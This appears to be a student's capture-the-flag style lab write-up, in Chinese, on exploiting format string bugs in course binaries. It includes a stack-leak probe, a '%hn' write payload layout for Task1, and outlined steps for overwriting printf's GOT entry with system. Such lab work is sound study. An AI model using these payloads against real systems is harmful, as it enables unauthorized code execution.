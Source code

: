 ## lab02-格式化字符串漏洞

### Task1

> 请阅读 fsb1.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：
ip： 8.154.20.109 ，port： 10300

![alt text](img/3220103784-林子昕-lab02/image-1.png)

```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb1
address of x is: 0x7ffd05b7a4f8
AAAAAAAA0x7ffd05b7a500.0x80.0x7f5cda7a17e2.0x20.0x7ffd05b7825c.(nil).0xbeaf.0x4141414141414141
```

得到 %7$p 的地址为 0xbeaf，根据 `fsb1.c` ，只需要修改 x 的值使它不等于 0xbeaf 即可。

构造 payload：

```text
测试时的布局：
[1] [2] [3] [4] [5] [6] [7:0xbeaf] [8:AAAAAAAA]

payload的布局：

格式化字符串部分 │ 填充部分     │ 地址部分
"%1c%9$hn\x00"  │ \x00\x00... │ x_addr
```


### Task2

> 请阅读 fsb2.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10301`
攻击步骤：
通过泄露libc函数来确定libc加载的虚拟地址，并通过计算拿到system的地址；
覆盖printf的GOT表为system；
调用printf以触发system从而getshell。
你可以通过学习pwntools中fmtstr 库的相关API来简化攻击流程。


### bonus

> 请阅读 bonus.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10302`
提示：
本题目中字符串不再位于栈上，无法利用之前的方法覆盖任意地址的内存。但栈上一些敏感内存仍然可以被覆盖，比如函数执行 push rbp 保存
的rbp寄存器。

